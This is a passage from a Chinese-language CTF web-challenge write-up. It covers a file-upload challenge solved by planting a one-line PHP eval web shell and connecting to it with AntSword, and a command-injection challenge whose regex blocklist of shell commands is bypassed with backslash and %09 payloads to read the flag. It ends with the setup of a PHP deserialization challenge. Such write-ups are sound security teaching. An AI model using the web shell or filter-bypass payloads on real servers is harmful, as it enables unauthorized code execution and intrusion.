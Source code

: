 ```php
        mkdir($upload_dir, 0755, true);
    }
    if (move_uploaded_file($file['tmp_name'], $upload_dir . md5($dir_name) . '.' . $ext)) {
        echo "文件上传成功！不过文件路径可不好找呀~什么？什么include.php？我不知道啊。" ;
    } else {
        echo "文件存储失败，未知原因......";
    }
    die();
}
?>
```
根据源码我们直到:
- 文件被保存在了当前目录下的`uploads`文件夹内  
- 文件的名字为md5加密后的文件名加上原有文件后缀（注意是md5加密的是全部文件名，包括后缀在内）  
我们上传一句话木马`c.php`,内容如下:  
```php
<?php
@eval($_REQUEST['c']);
?>
```
`c.php`md5加密后为`9981df88104befcd5f1e87e4a8c07a84`，所以新文件路径为`uploads/9981df88104befcd5f1e87e4a8c07a84.php`,用蚁剑连接`http://27.25.151.12:34327/uploads/9981df88104befcd5f1e87e4a8c07a84.php`,最后在环境变量里发现flag    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109195655.png)    
### 7、ezrce
本题就是要绕过以下waf  
```php
if (preg_match("/flag|cat|ls|echo|php|bash|sh|more| |less|head|tail|[\|\&\>\<]|eval|system|exec|popen|shell_exec/i", $cmd))
```
可以在命令间增加啊`\`反斜线，能绕过正则的判断并且不影响命令执行    
空格被过滤可以用`%09`代替，flag使用通配符绕过    
payload:  
```
?cmd=printf(`l\s%09/`);
?cmd=printf(`c\at%09/*lag`);
```
### 8、天命人
本题为反序列。  
反序列化能触发的魔术方法只有`__destruct`所以这里是入口，但是题目最后有`throw new Exception('开局一根棍，装备全靠打。');`，所以在反序列化后会抛出异常导致`__destruct`方法无法触发。   
```php
class Tianmingren {
    public $tianming;
    public $ren;
    function __destruct()
    {
        echo "迷途中的羔羊，你相信天命吗？<br>";
        echo $this->tianming;
    }
}
$data = unserialize($_POST['Wukong']);
throw new Exception('开局一根棍，装备全靠打。');
```
参考文章：
- [利用PHP垃圾回收机制构造POP链](https://blog.csdn.net/qq_45619909/article/details/122803600)  
- [浅析PHP GC垃圾回收机制及常见利用方式](https://xz.aliyun.com/t/11843?time__1311=Cq0xuD0DnD203GNem%3DQQwrhimvhbD&u_atoken=083c62927e4bb426f74c0cbd156e92d1&u_asig=1a0c380917314189524301022e0040)
